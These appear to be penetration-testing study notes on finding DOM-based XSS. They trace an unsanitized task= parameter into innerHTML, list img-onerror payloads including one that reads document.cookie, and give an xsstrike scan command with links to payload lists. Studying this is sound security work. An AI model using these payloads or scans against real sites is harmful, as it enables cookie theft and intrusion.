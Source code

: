 If a Sink function writes the exact input without any sanitization (like the above functions), and no other means of sanitization were used, then we know that the page should be vulnerable to XSS.

#### E.g.
We can look at the source code of the To-Do web application, and check script.js, and we will see that the Source is being taken from the task= parameter:
```JavaScript
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length);
```

Right below these lines, we see that the page uses the innerHTML function to write the task variable in the todo DOM:
```JavaScript
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```

We can see that we can control the input, and the output is not being sanitized, so this page should be vulnerable to DOM XSS.

#### XSS Payload w/o `<script>` tag
```html
<img src="" onerror=alert(window.origin)>
```
Displays page URL

#### XSS Payload w/o `<script>` tag
```html
<img src="" onerror=alert(document.cookie)>
```

## XSS Discovery

### Automated Discovery

#### Run xsstrike on a url parameter
```Shell
python3 xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```

***Also: BruteXSS and XSSer***

### Manual Discovery

#### Lists:
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
- [PayloadBox](https://github.com/payloadbox/xss-payload-list)

***Note: XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).*

### Code Review
